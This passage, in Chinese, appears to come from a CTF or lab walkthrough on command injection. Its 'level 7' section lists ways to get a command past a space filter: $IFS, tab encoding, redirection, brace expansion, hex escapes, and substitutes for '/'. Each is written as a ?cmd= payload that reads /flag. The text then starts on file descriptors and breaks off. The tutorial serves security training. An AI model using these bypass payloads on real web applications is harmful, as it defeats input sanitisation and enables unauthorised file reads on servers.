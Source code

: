 | `file -f` | 显示文件类型信息，若出错会报告具体内容                       |

#### level 7 - 空格过滤

在 L5 的基础上，屏蔽了空格。

**$IFS**

在终端环境下 空格 被视为一个命令分隔符，本质上由 `$IFS` 变量控制，而 `$IFS` 的默认值是空格，你可以在终端中尝试 `echo $IFS | base64` 可以看到空格的base64编码。

```
?cmd=cat${IFS}/fl""ag

?cmd=cat$IFS/fl""ag

?cmd=cat%09/fl""ag
```

**重定向**

```
?cmd=cat</fl""ag
```

**{}**

该语法只在 bash 中生效。

```
{cat,/f'l'ag}
```

**进制**

```
X=$'cat\x20/flag'&&$X
```

**扩展：过滤 /**

```
${HOME:0:1}来替代"/"：
cat /flag ---->>> cat ${HOME:0:1}flag

$(echo . | tr '!-0' '"-1') 来替代"/"：
cat $(echo . | tr '!-0' '"-1')flag
```

#### Level 8 : 命令执行 - 文件描述和重定向

在Linux中文件描述符(File Descriptor)是用于标识和访问打开文件或输入/输出设备的整数值，每个打开的文件或设备都会被分配一个唯一的文件描述符，Linux 中的文件描述符使用非负整数值来表示其中特定的文件描述符有以下含义

- 标准输入(stdin)：文件描述符为0，通常关联着终端键盘输入
- 标准输出(stdout)：文件描述符为1，通常关联着终端屏幕输出
- 标准错误(stderr)：文件描述符为2，通常关联着终端屏幕输出

平时我们使用的"<"和">"其实就相当于是使用"0<"和"1>"，下面是几种常见的使用示例：
